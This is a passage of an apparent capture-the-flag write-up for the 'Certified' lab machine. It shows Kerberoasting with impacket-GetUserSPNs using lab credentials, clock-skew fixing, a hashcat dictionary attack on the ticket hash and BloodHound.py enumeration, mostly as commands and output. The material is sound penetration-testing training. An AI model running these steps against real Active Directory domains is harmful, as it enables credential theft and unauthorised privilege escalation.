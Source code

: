 Still no luck. With provided credentials we could try Kerberoasting. 
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ impacket-GetUserSPNs certified.htb/judith.mader:judith09 -request -output hashes.txt
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName               Name            MemberOf                                    PasswordLastSet             LastLogon  Delegation 
---------------------------------  --------------  ------------------------------------------  --------------------------  ---------  ----------
certified.htb/management_svc.DC01  management_svc  CN=Management,CN=Users,DC=certified,DC=htb  2024-05-13 17:30:51.476756  <never>               



[-] CCache file is not found. Skipping...
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

There is one SPN, however clock skew is too great, so let's fix that first.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ sudo timedatectl set-ntp off && \
sudo rdate -n certified.htb
Fri Mar 14 23:11:09 CET 2025
```

Let's retry Kerberoasting.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ impacket-GetUserSPNs certified.htb/judith.mader:judith09 -request -output hashes.txt
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName               Name            MemberOf                                    PasswordLastSet             LastLogon  Delegation 
---------------------------------  --------------  ------------------------------------------  --------------------------  ---------  ----------
certified.htb/management_svc.DC01  management_svc  CN=Management,CN=Users,DC=certified,DC=htb  2024-05-13 17:30:51.476756  <never>               



[-] CCache file is not found. Skipping...
```

And try to dictionary attack with `hashcat`
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt --quiet
```

Unfortunately we were not able break hash for `management_svc`, which was kind of expected as services (svc) typically have strong, random passwords.

Next step in our enumeration will be lookup of abusable paths, from `judith.mader` to `Administrator`, with help of Bloodhound.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ ~/Tools/BloodHound.py/bloodhound.py -d certified.htb -c DCOnly -u judith.mader -p judith09 -ns "$TARGET" -k 
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: certified.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.certified.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
```
